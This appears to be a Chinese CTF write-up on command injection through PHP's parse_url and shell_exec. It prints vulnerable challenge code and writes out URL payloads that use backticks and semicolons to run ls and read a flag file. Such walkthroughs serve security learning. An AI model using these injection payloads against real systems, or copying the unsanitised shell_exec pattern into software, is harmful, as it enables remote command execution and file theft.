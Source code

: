 看下`parse_url`这个函数，官方文档：

![](https://i.loli.net/2021/11/01/Ye49mpPS6kVD5Wb.png)

会把host写到path里，因为是shell_exec，那么构造闭合，用$()或者``执行命令就行

```
?url=http://`ls`/var/www/html/1.txt
?url=http://`cat fl0g.php`/var/www/html/1.txt
```



## 397-401

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-01-15 16:38:07
# @Last Modified by:   h1xa
# @Last Modified time: 2021-01-15 17:49:13
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
if(isset($_GET['url'])){
    $url = parse_url($_GET['url']);
    # if(!preg_match('/;|>|http|https|\|/i', $url['host']))
    shell_exec('echo '.$url['host'].'> /tmp/'.$url['path']);

}else{
    highlight_file(__FILE__);
}
```

输出目录改了，改下payload，用分号来执行下个命令就好了

```
?url=http://1/1;echo `ls` > a.txt
?url=http://1/1;echo `cat fl0g.php` > a.txt
```

398-401就是多了对`url['host']`的正则过滤，把指令都丢path里就好了

## 402

多了对`$url['scheme']`和`$url['host']`的正则匹配

```php
if(preg_match('/http|https/i', $url['scheme'])){
    die('error');
}
if(!preg_match('/;|>|\||base/i', $url['host'])){
    shell_exec('echo '.$url['host'].'> /tmp/'.$url['path']);
}
```
